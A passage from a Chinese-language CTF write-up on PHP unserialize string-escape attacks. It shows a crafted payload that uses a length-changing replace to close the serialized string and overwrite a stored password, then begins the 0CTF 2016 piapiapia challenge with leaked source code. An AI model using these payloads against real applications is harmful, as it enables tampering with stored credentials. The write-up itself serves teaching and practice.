 注意到一个细节，被替换后的是序列化的字符串，替换后字符串边长，s值依然是11，所以报错了。

然后换个输出，发现了一些特殊的结果：

> zengmmm";}

执行结果有了一些变化：

```php
string(44) "a:2:{i:0;s:10:"zengmmm";}";i:1;s:5:"12345";}"
string(47) "a:2:{i:0;s:10:"zengaaaaaa";}";i:1;s:5:"12345";}"
PHP Notice:  unserialize(): Unexpected end of serialized data in /home/php/1.php on line 13
PHP Notice:  unserialize(): Error at offset 30 of 50 bytes in /home/php/1.php on line 13
bool(false)
PHP Notice:  unserialize(): Unexpected end of serialized data in /home/php/1.php on line 14
PHP Notice:  unserialize(): Error at offset 30 of 50 bytes in /home/php/1.php on line 14
PHP Notice:  Trying to access array offset on value of type bool in /home/php/1.php on line 15
failed.
```

我们看到序列化前的字符串的长度是13位，而被替换后的字符串也是13位，后面的`;}`将字符串闭合了，导致后面的内容失效，反序列化提前结束，而前面的`a:2`却表明数组长度为2，所以提示“非预期的序列化数据结尾”。

那么这个时候我们构造如下`payload`：

> zengmmmmmmmmmmmmmmmmmmmm\";i:1;s:6:\"000000\";}
>

执行结果：

> string(88) "a:2:{i:0;s:44:"zengmmmmmmmmmmmmmmmmmmmm";i:1;s:6:"000000";}";i:1;s:5:"12345";}"
> string(98) "a:2:{i:0;s:44:"zengaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";i:1;s:6:"000000";}";i:1;s:5:"12345";}"
> array(2) {
>   [0]=>
>   string(44) "zengaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
>   [1]=>
>   string(6) "000000"
> }
> flag{123456}

根据上一个输入，我们发现原理相同，通过`;}`闭合序列化字符串，并且巧妙利用替换操作使得替换后的`'"'`前的字符串长度刚好等于替换前的全部字符串长度，从而成功的让`password`变成了`000000`。

## [0CTF 2016]piapiapia解题思路

这道题存在源码泄露**`www.zip`**

拿到了五个文件

**`index.php`**

```php
<?php
	require_once('class.php');
	if($_SESSION['username']) {
		header('Location: profile.php');
		exit;
	}
	if($_POST['username'] && $_POST['password']) {
		$username = $_POST['username'];
		$password = $_POST['password'];

		if(strlen($username) < 3 or strlen($username) > 16) 
			die('Invalid user name');

		if(strlen($password) < 3 or strlen($password) > 16) 
			die('Invalid password');

		if($user->login($username, $password)) {
```